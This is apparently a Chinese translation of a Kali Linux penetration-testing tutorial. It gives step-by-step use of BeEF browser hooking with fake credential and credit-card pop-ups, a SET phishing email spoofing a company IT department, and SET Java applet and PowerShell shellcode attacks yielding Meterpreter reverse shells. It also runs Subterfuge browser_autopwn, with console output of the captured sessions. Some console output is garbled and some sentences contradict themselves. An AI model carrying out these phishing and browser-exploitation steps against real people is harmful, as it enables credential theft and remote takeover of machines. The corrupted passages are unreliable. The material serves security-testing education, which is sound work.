* 监听 socket [0.0.0.0:3000]
* 浏览器利用框架 (BeEF) 0.4.1-alpha
* Twitter @beefproject
* 网站 beefproject.com
* 博客 beefproject.com
* GitHub github.com/beefproject/beef
* 项目创建者 WadeAlcorn (@WadeAlcorn)
* BeEF 正在加载。请候几秒...
* 已启用 10 个扩展
* 已启用 140 个模块
* 检测到 2 个网络接口：
  - 网络接口: 127.0.0.1
  * 挂钩 URL: http://127.0.0.1:3000/hook.js
  * UI URL: http://127.0.0.1:3000/ui/panel
  * 运行在网络接口: 192.168.56.101
  * 挂钩 URL: http://192.168.56.101:3000/hook.js
  * UI URL: http://192.168.56.101:3000/ui/panel
* REST API API key: b2cb8bf22eda513f3eb6b5ae8a3d2a93eaa
* HTTP 代理: http://127.0.0.1:8679
* BeEF 服务器已启动 (control+c 停止)
```

2. 现在只需在浏览器中访问“127.0.0.1:3000/ui/panel”查看用户界面

3. 接下来，使用 `beef` 的用户名和密码登录：

`img/12315f8a5d9e9bad6bf982c86c5537ea_114_0.png`

### 入上手

在能够完全探索框架之前，你必须挂钩一个浏览器。刚开始，你可以在框架内挂钩浏览器，它将出现在左侧的 Hosted Browser（挂钩浏览器）面板中，或者出现在另一个在线或离线网站，取决于你如何选择浏览器。

### 挂钩浏览器

要挂钩浏览器，只需点击它，就会出现新标签页。每个挂钩浏览器都有若干子模块，描述如下：

每个模块都会创建与此挂钩浏览器相关的条目。需要注意的是，每个模块都是独立的，因此框架的大部分功能都是独立运行。每个模块都应该能够在浏览器内可以执行的任何活动。挂钩浏览器管理 DOM 或执行其他活动，例如利用漏洞。

在“Getting Started”（上手）部分，你将看到两个测试页面的链接，可以使用它们来挂钩浏览器。我喜欢“高级版本”，因为它看起来像真实的网页。

4. 在我们运行最新 Firefox 浏览器的 XP 系统上，如果我们访问 BeEF 创建的“Malicious”（恶意）演示页面，我们将看到这个：

`img/12315f8a5d9e9bad6bf982c86c5537ea_115_1.png`

如果我们使用 Chrome，则是这个：

`img/12315f8a5d9e9bad6bf982c86c5537ea_116_0.png`

页面显示了一些看起来很诱人的牛肉，似乎一切正常。但用户无法察觉的是，这个特定的网页包含一个浏览器钩子（browser hook）。

浏览器钩子是一种恶意程序，它允许攻击者挂钩浏览器，并……嗯，几乎可以接管它的完全控制权。嗯，可能不是完全控制，但它确实让我们拥有对其进行肆意破坏的能力。

访问者一访问该页面，钩子就会设置好。注意，用户不需要运行任何程序或将鼠标悬停在任何地方即可触发攻击。只需访问页面就会触发攻击。

当机器被挂钩后，它们会出现在 BeEF 控制面板中：

`img/12315f8a5d9e9bad6bf982c86c5537ea_116_1.png`

现在我们已经在控制面板中列出了系统，只需点击我们想要攻击的系统，然后从命令部分列出的众多攻击中选择一个：

`img/12315f8a5d9e9bad6bf982c86c5537ea_117_0.png`

使用这些命令，我们可以从害者的浏览器中获取信息，甚至更改他们看到的内容。

例如，如果我们想对他们尝试社交工程并获取他们的 Facebook 凭据，可以进入“Social Engineering”（社交工程）标签并点击“Pretty Thief”（漂亮的小偷）。然后点击“Execute”（执行）。

害者的浏览器上弹出一个：

`img/12315f8a5d9e9bad6bf982c86c5537ea_117_1.png`

```
data: Sat Jun 29 2013 16:48:32 GMT-0400 (EDT)
answer=testuser@test.com IluvSecurePasswords!
```

用户名：`testuser@test.com` 和密码：`IluvSecurePasswords!`

我们还可以尝试这种模仿 Amazon 的攻击获取信用卡号：

您的信用卡详情已过期，请输入新的信用卡凭据以继续购物。

更改您的支付方式不会影响您已下过的订单。

您的账户

添加信用卡或借记卡

编辑您的支付方式：

持卡人姓名：

有效期：11 / 2011

卡号：

确认

## BeEF 的功能远不止于弹窗。你可以获取受害者所在网页的 HTML：

```
Tue Jul 02 2013 21:24:08 GMT-0400 (EDT)
```

然后可以实时更改页面上的任何链接，而用户完全无感知，将它们指向你任何让受害者去的地方。

我们假设受害者身处纽约巨人队（New York Giants）橄榄球队，即使他们来自纽约我们也不喜欢那里，并希望当他们点击任何链接时将他们发送到达拉斯牛仔队（Dallas Cowboys）的首页。

这是将页面上所有链接指向达拉斯牛仔队网站后的网页源码：

```
data: head<meta http-equiv="Content-Type" content="text/html;
<a href="http://dallascowboys.com/">/Shell</a>
<a href="http://dallascowboys.com/">Slashdot</a>
<a href="http://dallascowboys.com/">hackers.org homepage</a>
```

当然，攻击者通常不会把他们引导到体育网站，而更有可能是一个恶意网站，比如是 Amazon 或 Facebook 的完全伪造版。

你还可以发送自定义的 Javascript，甚至将其与 Metasploit 结合尝试获取远程 shell。

如你所见，控制浏览器的攻击者是非常危险的。

## 结论

BeEF 是一个非常有趣的工具，一旦你掌握了它，就相当容易使用。

攻击根据其成功的概率进行了颜色标记。你可能仍然想尝试它们，因为我注意到某些看起来不起作用的代码在某些情况下似乎运行良好。

我注意到较新的浏览器似乎会阻止某些攻击，但 XP 系统对于哪些攻击对其有效仍然非常容易防御。

我尝试使用最新版本的 Firefox 浏览器对 Windows 7 系统执行了完全相同的攻击，但没有任何显示：

`img/12315f8a5d9e9bad6bf982c86c5537ea_119_0.png`

创建了一个钩子，但只持续了大约一两秒就被丢弃了。

针对此类攻击的最佳缓解措施似乎是使用最新的 Windows 操作系统和浏览器版本。如果可以，请更新或替换您的 Windows XP 系统，特别是当它们在线使用时。

Windows 7 和 8 的基础安全性比 Windows XP 高得多。

最后，更新或替换您的 Windows XP 系统，特别是如果它们正在在线使用。请不要点击或打开邮件中的链接和附件。

# 第四部分 社交工程

## 第 13 章 社交工程

### 资源

http://www.social-engineer.org/

### 序言

社交工程是操纵他人以获取信任的艺术。社交工程本质上是欺骗人类。

社交工程专家会通过伪装成他人来获取信息或数据。

让我们来看一些例子：

- 当你进入安全数据中心时，一个提着满箱子的快递员到达了门口。你毫不思索地为他开了门。如果他不是真正的快递员，只是想要进入安全数据中心，你会怎么办？

- 你坐在工位上，一个穿着衬衫、领带、拿着剪字板和工具箱的人走过来。他说他正在进行系统升级，需要访问你的系统。你问是否应该关机，他回答说只需要先检查几项。你起身走向食堂。并让他访问你的系统。

- 你是某家大公司的 CEO。某天，你收到了来自某公司的包裹，感谢你的业务。它功能齐全，你迫不及待想将其连接到执行-Fi 进行尝试，你会怎么办？公司从未给你发过平板电脑，只是给了企业社交工程一个连接到系统。

- 你收到一封来自公司 IT 经理的邮件。他们正在安装某些软件，你需要安装一些驱动程序。他们将软件包作为附件包含，并提供了完整的安装说明。你会怎么办？这封邮件并非真的来自你的 IT 经理，而是给了远程黑客对你工作站的完全控制权。

# 第 14 章 – 社会工程工具包 (SET)

## 引言

社会工程攻击是当今针对网络的最顶级技术之一。当你只需要欺骗用户运行一个文件即可获得其机器的完全访问权限并绕过防病毒、防火墙和许多入侵检测系统时，为什么要花费几天、几周甚至几个月尝试渗透网络安全层呢？

这最常用于钓鱼攻击，编写一封电子邮件或创建一个伪造网站，欺骗用户运行恶意文件，从而在他们的系统中创建一个后门。但作为一名安全专家，你如何针对你的网络进行这种测试呢？这种攻击是否有效？你又该如何防御它？

Kali 包含了最流行的社会工程攻击工具包之一：David Kennedy 的社会工程工具包（Social Engineering Toolkit，SET）。David 的团队在 SET 上非常活跃，总会有新的功能和攻击被加入。最近，SET 还添加了几个非社会工程工具，使其成为一个非常强大的攻击工具。

在本章中，我们将查看 SET 包含的一些工具以及两种攻击选项（都是基于 PowerShell 的攻击）。

## 启动 SET

从 Kali 主菜单启动 SET：

Kali Linux > 漏洞利用工具 (Exploitation Tools) > 社会工程工具包 (Social Engineering Toolkit)

或者在终端提示符中输入“se-toolkit”或“setoolkit”（取决于你的 Kali 版本）。

## 批量邮件器 (Mass Emailer)

社会工程师攻击网络的一种方式是向公司地址发送大量电子邮件，看看谁会回复或运行你发送的恶意附件。

SET 自带批量邮件发送器选择，“社会工程攻击 (Social-Engineering Attacks)”。

- 1. 从主菜单选项 5，“社会工程攻击 (Social-Engineering Attacks)”。

- 2. 接下来选择选项 5，“批量邮件攻击 (Mass Mailer Attack)”。

批量邮件发送器有两个选项，第一个是向单个个人发送电子邮件；第二个选项允许你导入列表并向该列表中的任意数量的人发送邮件。

你想做什么：

- 1. 电子邮件攻击 单个邮箱地址 (E-Mail Attack Single Email Address)

- 2. 电子邮件攻击 批量邮件 (E-Mail Attack Mass Mailer)

- 99. 返回菜单。

你可以选择发送单封邮件或多封邮件。在这个示例中，我们只发一个吧。

- 3. 选择选项 1，“电子邮件攻击 单个邮箱地址”。

- 4. 输入目标邮箱地址：

```
set:phishing> Send email to:MrCEO@SomeRandomDomain.com
```

- 5. 接下来选择使用 Gmail 账户或其他服务器。为了测试，我们将使用虚造的 gmail 账户。所以我选择了选项 1：

```
1. 为你的电子邮件攻击使用 gmail 账户。
2. 使用你自己的服务器或开放的中继
set:phishing>1
set:phishing> Your gmail email address:
```

我将使用虚假名称“EvilHacker@EvilDomain.com”。

6. 现在选择一个伪造名称作为消息的发件人（from）行：

让我们使用“ITDepartment@SomeRandomDomain.com”，让它看起来像是来自公司 IT 部门。

- 7. 接下来 SET 会询问你的 Gmail 账户密码。

- 8. 在提示符“将此消息/消息标记为高优先级？”处输入“yes”。

- 9. 接下来，输入邮件主题。比如“重要更新 (Important Update)”怎么样：

```
set:phishing> Email subject:Important Update
```

- 10. 当提示“以 html 还是纯文本发送消息？”时输入“P”。

现在输入虚假消息，最好是那种诱导受害者点击包含的恶意链接或诱导他们进入恶意网页的消息。在实际防御中，这可以是一个测试网页，记录那些受骗访问该页面的人的 IP 地址。这样，作为安全团队，我们就知道组织内部需要对恶意邮件的风险进行更好的教育了。

完成后，输入“END”。

（大写）已完成：亲爱的 CEO，我们正在进行系统更新，需要您访问 Evilomin 并输入您的所有个人信息，运行网站上的所有程序并包括您的信用卡号。

正文下一行：诚挚地，

正文下一行：您的 IT 部门。

正文下一行：

正文下一行：END

- 11. SET 将会发送该电子邮件。

上面的消息显然是一个愚蠢的伪造，但类似这样的内容（带有更具信服的消息）可以用来测试员工检测、抵抗和报告钓鱼尝试的能力。

## SET 的 Java PYInjector 攻击

到目前为止，我们只是发送了一封可能将某重定向到虚假网站的虚假邮件。但如果我们制作一个提供陷阱脚本的虚假网站呢？如果用户允许脚本运行，并与用户创建一个远程 shell 呢？

Java PYInjector 攻击利用了基于 PowerShell 的攻击绕过防病毒软件的能力。我们将使用 SET 创建一个虚假网站，提供一个陷阱 Java 程序。如果用户允许其运行，我们就能获得系统的完全远程会话。

在本示例中，我们将使用 Windows 7 系统作为“目标”。

从 SET 主菜单：

- 1. 选择数字 1，“社会工程攻击 (Social-Engineering Attacks)”。

- 2. 接下来选择 2，“网站攻击向量 (Website Attack Vectors)”。

注意其他可用选项。

- 3. 然后选择 1，“Java App 攻击方法 (Java Applet Attack Method)”。

这将创建一个带有后门 shell 的 Java 程序。

这里有几个备攻击选项。


Metasploit 浏览器漏洞（Metasploit Browser exploit）使用 Metasploit 浏览器漏洞攻击客户端系统。凭据浏览器黑客（Credential Browser Hacker）非常精明，它会克隆现有网站（如 Facebook）并存储其中输入的任何凭据。标签劫持（Tabjacking）在客户端打开了很多浏览器窗口时有效，它会等待一段时间，将其中一个标签切换到 SET 创建的页面。网页劫持（Web-Jacking）攻击使用 iframe 替换使恶意链接看起来合法。最后，多重攻击（Multi-Attack）结合了上述几种攻击。

- 4. 接下来选择 1，“网页模板 (Web Templates)”让 SET 创建一个通用的网页。或使用选项 2，“站点镜像 (Site clone)”，允许 SET 使用现有网页作为攻击网页的模板。

- 5. NAT/端口转发 - 根据你的 SET 系统是否会使用不同的外部 IP 地址选择是或否。通常如果使用内部测试实验室，选择“no”足够了。

- 6. 输入你的 SET 机器 IP 地址。如果你不确定 IP 地址，可以打开另一个终端窗口并输入“`ifconfig`”。

- 7. 选择模板 - 现在选择 1，“需要 Java (Java Required)”。注意其他可社交媒体选项。

- 8. 选择你交付的有效负载，我通常选择 14，“字母数字 Shellcode (Alanum Shellcode)”（这很有趣，因为它从内存中运行，不触碰硬盘，从而有效地绕过某些防病毒软件）或 15，“PyInjector Shellcode”。现在让我们使用选项 15，“PyInjector Shellcode”，并使用默认端口 443。

- 9. 接下来选择要注入的负载（payload），让我们选择第一个选项，“Windows Meterpreter Reverse TCP”。

现在 已全部准备就绪并将执行几项操作。它创建并加密 PowerShell 注入代码，创建网站，加载 Metasploit 并启动供人们连接的服务。

完成后，你的屏幕看起来像这样：

```
# Preparing injector for pyinjector shellcode injection...
# Preparing website for pyinjector shellcode injection...
Base64 encoding shellcode and preparing for delivery...
Multi:PowerInjection 已开启，这应该很酷...
Generating PowerShell injection code for: 22
Generating x86-based powershell injection code for: 53
Generating x86-based powershell injection code for: 44
Generating x86-based powershell injection code for: 21
Generating x86-based powershell injection code for: 25
已加密绕过执行策略...

Web 服务器已启动。欢迎来到 SET 网站攻击。
KALLINUX
* 已在 Windows、Linux 和 OS X 上测试过
* 你的漏洞正在监听。
* 站点已移动。SET 服务器正在监听。
启动 MSF 监听器...
加载 MSF 可能需要一些时间。你查询得频繁，听到的越多。
* 警告：数据库支持已禁用
-- 
METASPLOIT 由 Rapid7 开发
```

好了，我们在攻击者端准备就绪。

现在，如果我们去“受害者”机器并访问我们 Kali “攻击者”机器的 IP 地址，我们将看到：

哦看，网站想要运行一个 Java Applet。注意弹出窗口上的名称显示为：“Applet 已通过验证（安全）”。

真让人安心，看来运行它一定没问题。

如果“受害者”允许此 Java 脚本运行，那么将仅仅是一个，而是多个远程会话将连接到我们的攻击机器。如下所示所示：

```
msf exploit(handler) > [+] Metasploit session 2 opened (192.168.1.226:-> 192.168.1.219:49353) at 2013-09-05 12:21:17 -0400
[+] Metasploit session 3 opened (192.168.1.226:-> 192.168.1.219:49354) at 2013-09-05 12:21:17 -0400
[+] Metasploit session 4 opened (192.168.1.226:-> 192.168.1.219:49351) at 2013-09-05 12:21:17 -0400
[+] Metasploit session 5 opened (192.168.1.226:-> 192.168.1.219:49352) at 2013-09-05 12:21:17 -0400
sessions
```

随后我们将获得一个“msf”命令提示符。

从这里开始，我们使用命令“`sessions`”可以看到任何已创建的开放远程会话：

```
msf exploit(handler) > sessions
Active sessions
| Id | Type | Information | Connection |
| :--- | :--- | :--- | :--- |
| 1 | meterpreter x86/win32 | Client:P...@Client-PC | 192.168.1.226:449 -> 192.168.1.219:49348 (192.168.1.219) |
| 2 | meterpreter x86/win32 | Client:P...@Client-PC | 192.168.1.226:251 -> 192.168.1.219:49352 (192.168.1.219) |
| 3 | | 192.168.1.219:49349 | 192.168.1.226:534 |
| 4 | meterpreter x86/win32 | Client:P...@Client-PC | 192.168.1.226:221 -> 192.168.1.219:49351 (192.168.1.219) |
| 5 | meterpreter x86/win32 | Client:P...@Client-PC | 192.168.1.226:449 -> 192.168.1.219:49352 (192.168.1.219) |
```

使用“`sessions -i`”和会话编号可以连接到任何会话。

```
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 3...
meterpreter > shell
Process 3316 created.
Channel 1 created.
Microsoft Windows (Version 6.1.7601)
Copyright (C) 2009 Microsoft Corporation. All rights reserved.
C:\Users\Client\Desktop>
```

一旦连接，你就可以使用任何内置的 Meterpreter 命令，或者使用 Linux 命令浏览远程 PC，或者简单地运行 "`shell`" 将给你一个远程窗口命令行 shell：

```
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 3...
meterpreter > shell
Process 3316 created.
Channel 1 created.
Microsoft Windows (Version 6.1.7601)
Copyright (C) 2009 Microsoft Corporation. All rights reserved.
C:\Users\Client\Desktop>
```

这就是这样，受害者方面的一个错误选择，正如你所看到的，我们有了一个完整的远程会话。

## 社会工程工具包：PowerShell 攻击向量

基于 Java 的 PowerShell 攻击很好，但如果目标没有运行 Java，或者我们无法欺骗他们访问我们的 SET 页面怎么办？另一种社会工程尝试是欺骗用户运行我们发送给他们文件。

所以，让我们来看创建一个 PowerShell shellcode 文件并将其发送给目标。如果我们能欺骗目标运行该 shellcode，我们就能获得与该机器的远程连接。

在本节中，我们将使用 SET 的 PowerShell 攻击向量创建一个 PowerShell 脚本，该脚本在被目标系统运行时将回连并为我们的 Kali 系统创建一个远程 shell。我们还将设置 SET 来寻找这些入站连接。

- 1. 启动 SET 并选择数字 1，“Social-Engineering Attacks”。

- 2. 选择选项 10，“PowerShell Attack Vector”。

- 3. 选择下一个数字 1，“PowerShell Alphanumeric Shellcode Injector”。

- 4. 现在只需输入 Kali 系统的 IP 地址以及你想用于监听的端口。

最后，SET 询问你是否想要创建监听服务，除非默认端口 443 足够了。当受害者运行代码时，SET 将准备好接受远程连接。在提示符处输入“yes”。

```
# IP address for the listener: 192.168.1.226
powershell Enter the port for the reverse [443]
# Preparing the payload for delivery, and injecting alphabetic shell...
# Generating x86-based payload...
# Encoded bypass execution restriction policy...
# If you want the payload commands and attack, they are exported to /root/set/reports/
# Do you want to start the listener now [yes/no]: yes
```

SET 现在创建漏洞代码，如果你选择了现在启动监听，它将在后台启动监听服务。

或者你也可以直接使用“Veil”程序（参阅“使用 Veil 绕过杀毒软件”的章节），它的原理基本相同。

## 结论

如今几乎每台 Windows 机器都安装了 PowerShell，而且许多杀毒软件无法检测到这类攻击，这使得它们非常强大。如下所示，我将 PowerShell 注入代码上传到了 VirusTotal，它没有检测到任何恶意内容：



很大可能，你需要被诱导运行该代码，攻击才能成功。一如既往，在打开电子邮件和社交媒体消息中的文件和链接时要务必小心。

运行一个浏览器脚本拦截程序，例如 Firefox 插件“NoScript”，以防止代码从访问过的网站自动运行。

此外，还要非常警惕短链接，特别是是在 Twitter 上使用的链接。最近我在 Twitter 上看到一个短链接，解析后竟然是一个指向恶意软件服务器的四行命令！

## 使用 SET 进行更高级的攻击

花些时间研究 SET，并查看它提供的攻击目标系统的众多选项。

你可以使用 SET 创建恶意的 CD/DVD 和 USB 介质（用于创建恶意介质并将其留存在公司停车场等）、一系列基于 Arduino 的攻击、Microsoft SQL 暴力破解器、无线访问点攻击、群邮件发送器、QR 码攻击以及我们未涵盖的一系列网站社交工程攻击。

在 Fast Track 菜单下的 SCCM 向量对于任何使用 PXE 启动和公司镜像的企业都要特别关注。有关 SCCM 的完整概述，请查看：

> http://www.trustedsec.com/files/Owning_One_Rule_all_v2.pdf

你还可以在 SET 配置中设置许多选项来修改 SET 功能。该文件位于 `/etc/share/set/set_config`

社交工程工具包（SET）对于任何企业安全测试团队来说都是一个非常强大且功能丰富的工具。

# 第 15 章 - Subterfuge（欺诈）

## 使用 Subterfuge 进行自动浏览器攻击

在本节中，我们将继续讨论社交工程类型的攻击。我们将使用一个名为 Subterfuge 的程序创建一个伪造 Web 服务器，它将自动攻击任何尝试连接到我们的浏览器。

这将模拟黑客通过让用户访问恶意网站来获取目标机器权限的一种方式。一旦客户端访问此 Web 服务器，Subterfuge 将在客户端通过 Metasploit Framework 的 Browser AutoPwn 模块自动运行一系列浏览器攻击。

如果其中一个（或多个）攻击成功，我们通常将获得客户端系统的远程命令 shell。

## 让我们开始吧

首先，我们需要安装 Subterfuge。

Subterfuge 是从 Backtrack 平台移除的程序之一。它存在于 Backtrack 5 中，但在切换到 Kali 时被移除，很可能是因为 Kali 中有其他功能类似的程序。从在线论坛来看，Subterfuge 可能会在某个时候重新添加回来。但安装并不困难。

让我们下载 Subterfuge：

- 1. 下载 Subterfuge (http://code.google.com/p/subterfuge/downloads/list)



- 2. 将其保存到根目录。

现在使用 `tar -xvf` 命令解压文件。

```bash
root@kali:~# ls
Desktop SubterfugePublicBeta5.0.tar.gz
root@kali:~# tar -xvf SubterfugePublicBeta5.0.tar.gz
```

现在进入 Subterfuge目录并使用 Python 运行安装：

```bash
root@kali:~# cd subterfuge/
root@kali:~/subterfuge# sudo python install.py
```

将弹出图形安装界面。点击“Full Install with Dependencies”（带依赖的完整安装），然后点击“Install”（安装）：



安装程序完成后，点击“Finish”（完成）。

```bash
subterfuge/sslstrip.svn/text-base/db.svn
subterfuge/sslstrip.svn/text-base/DnsCache.py
subterfuge/sslstrip.svn/text-base/
subterfuge/sslstrip.svn/
subterfuge/sslstrip.svn/
subterfuge/sslstrip.svn/
subterfuge/sslstrip.svn/
subterfuge/sslstrip.log
Installation Complete The quieter become, the more you are able to hear
```

7. 现在运行 subterfuge：

```bash
root@kali:~# cd subterfuge
root@kali:~# subterfuge
```

8. 现在你会看到一个显示服务器已启动的屏幕。



9. 现在打开浏览器并访问 127.0.0.1:80。你将看到 subterfuge 的主界面：



注意这里有一个显示用户名和密码的地方、一个 Modules 菜单和一个 Start 按钮。在 Modules 菜单下，我们可以执行几种不同的攻击。我们可以通过 Settings 菜单修改 subterfuge 的功能，而 Start 则启动其中一种攻击。

## Browser Autopwn（浏览器自动破解）

让我们尝试 Browser_Autopwn 攻击。Subterfuge 会启动一个恶意服务器并加载大量不同的客户端攻击，并将它们用于任何尝试连接的客户端。

- 1. 点击 Modules 菜单。

- 2. 点击“HTTP Injection”图标。

- 3. 我们将进入 Settings。保持默认的“browser_autopwn”和“Frame Injection”不变并点击“Apply”。

- 4. Subterfuge 会自动打开 shell 窗口并启动 Metasploit。



```bash
sh
Using MSF Directory: /pentest/metasploit-4.2.0/msf3/
Creating Metasploit Resource File...
Exploit => use/browser_autopwn
Server IP => set 192.168.1.131
URIPATH => set uripath
Server Port => set srvport 8080
File Created!
Building injection...
Using Payload injection
Serving up Metasploit...
```

- 5. Metasploit 利用程序已加载并准备就绪：


```bash
Using URL: http://0.0.0.0:8080
```

12...

..:110.0.0.0:8080

[*] Local IP: 192.168.1.131:8080

[*] Server..

exploit exploit exploit--//java_117_bean_2 with payload/meterpreter/reverse_tcp

Using URL: http://0.0.0.0:8080

[*] Local IP: 192.168.1.131:8080

[*] Server started.

[*] Starting exploit multi-browser/java_jre17_method with payload/meterpreter/reverse_tcp

Using URL: http://0.0.0.0:8080

[*] Local IP: 192.168.1.131:8080

[*] Server started.

[*] Starting exploit multi-browser/java_jre17_provider_skeleton with payload/meterpreter/reverse_tcp

Using URL: http://0.0.0.0:8080

[*] Local IP: 192.168.1.131:8080

[*] Server started.

[*] Starting exploit multi-browser/java_jre17_reflection_types with payload/meterpreter/reverse_tcp

Using URL: http://0.0.0.0:8080

[*] Local IP: 192.168.1.131:8080

[*] Server started.

过了一会儿，你会看到显示：

- [* Done, found 64 exploit modules
[*] Using URL: http://0.0.0.0:8080
[*] Local IP: 192.168.1.131:8080
[*] Server started.

找到了 64 个利用程序 - 这意味着 Subter 准备了 64 种不同的攻击以供连接使用。

- 6. 如果受害者访问 subterfuge 网页（在本例中为 Windows 7 系统），browser_autopwn 攻击将启动并自动如文所示发起多种攻击：



- 7. 要检查是否有任何一个成功，我们可以运行 `sessions` 命令：



如你上方所示，我也打开了三个活跃的远程会话！

让我们选一个看看它是否真的起作用。我们将使用 session 1，只需输入“`sessions -i`” 和我们想要的 session id。

并且成功了。如你上方所示，我也打开了一个远程命令提示符。

# 第五部分 - 密码攻击

## 第16 章 – 破解简单的 LM 哈希

## 引言

微软对 Windows XP SP3 和 Office 2003 的支持将于 2014 年 4 月 8 日正式结束。根据某些报告，尽管 Windows XP 仅剩一年支持，但接近 40% 的电脑用户仍在使用它。

